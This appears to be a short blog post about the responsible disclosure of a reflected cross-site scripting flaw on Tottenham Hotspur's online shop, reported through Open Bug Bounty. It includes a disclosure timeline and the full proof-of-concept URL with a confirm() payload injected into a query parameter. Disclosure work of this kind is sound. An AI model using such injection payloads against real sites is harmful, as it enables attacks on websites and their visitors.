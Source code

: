 ```yaml
---
ID: 105
post_title: '@SpursOfficial ‏#XSS'
post_name: 'spursofficial-%e2%80%8fxss'
author: Robbie
post_date: 2017-04-24 12:50:42
layout: post
link: 'https://xsses.rocks/spursofficial-%e2%80%8fxss/'
published: true
tags: [ ]
categories:
  - XSS
---
```

<img class="alignnone size-medium" src="https://s17.postimg.org/8ncqdpzq7/Capture.png" width="443" height="187" />

https://www.openbugbounty.org/incidents/226789/

Notification &amp; Disclosure Timeline

22 April, 2017 at 13:27 GMT Vulnerability reported via Open Bug Bounty
24 April, 2017 at 04:33 GMT Vulnerability verified and confirmed
24 April, 2017 at 06:17 GMT Notification sent to subscribers (without technical details)
26 April, 2017 at 09:32 GMT Vulnerability Patched

XSS URL :[startCodeBlock]<a href="http://shop.tottenhamhotspur.com/detailfash.php?branch=&amp;code=MF01AW09" target="_blank" rel="noopener noreferrer" data-saferedirecturl="https://www.google.com/url?hl=en-GB&amp;q=http://shop.tottenhamhotspur.com/detailfash.php?branch%3D%26code%3DMF01AW09&amp;source=gmail&amp;ust=1493283425339000&amp;usg=AFQjCNE5Mkp8OCZUCEtQRx-wjGTBHbE6RQ">http://shop.tottenhamhotspur.<wbr />com/detailfash.php?branch=&amp;<wbr />code=MF01AW09</a>' -confirm(`OPENBUGBOUNTY`)-'&amp;<wbr />super=CAT00062&amp;supercategory=<wbr />CAT00062&amp;type =FASH&amp;wcategory=#[endCodeBlock]